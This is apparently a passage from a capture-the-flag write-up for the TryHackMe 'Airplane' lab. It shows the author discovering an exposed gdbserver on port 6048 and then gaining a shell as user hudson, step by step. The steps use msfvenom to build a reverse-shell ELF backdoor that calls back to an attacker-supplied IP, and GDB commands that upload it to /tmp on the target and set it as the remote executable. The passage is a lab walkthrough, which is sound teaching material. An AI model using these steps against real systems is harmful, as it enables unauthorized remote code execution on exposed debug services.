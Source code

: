 > I recommend using [Caido](https://caido.io/) for this type of attack because it does not have the rate limit issue.

After sorting by length, you will find a request with the response being `/usr/bin/gdbserver0.0.0.0:6048airplane`. (The specific request is always found among those with a length of approximately 400 bytes)

![gdbserver process](/images/THM-Airplane/gdbserver.png)

## Initial Foothold (shell as hudson)

Searching `gdbserver reverse shell` on Google, we find [this HackTricks page](https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver) explaining how to exploit this tool. Let's follow the steps:

1. Create an elf backdoor

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP_ADDRESS LPORT=PORT PrependFork=true -f elf -o binary.elf
```

![elf backdoor](/images/THM-Airplane/elf_backdoor.png)

2. Make it executable

```
chmod +x binary.elf
```

3. Launch GDB to debug the executable

```
gdb binary.elf
```

![Open the elf with GDB](/images/THM-Airplane/gdb_elf.png)

4. Set the remote debuger target

```
target extended-remote airplane.thm:6048
```

![Set the remote target](/images/THM-Airplane/elf_target_set.png)

5. Upload the elf file

```
remote put binary.elf /tmp/binary.elf
```

![elf backdoor upload](/images/THM-Airplane/elf_upload.png)

6. Set the remote executable file

```
set remote exec-file /tmp/binary.elf
```
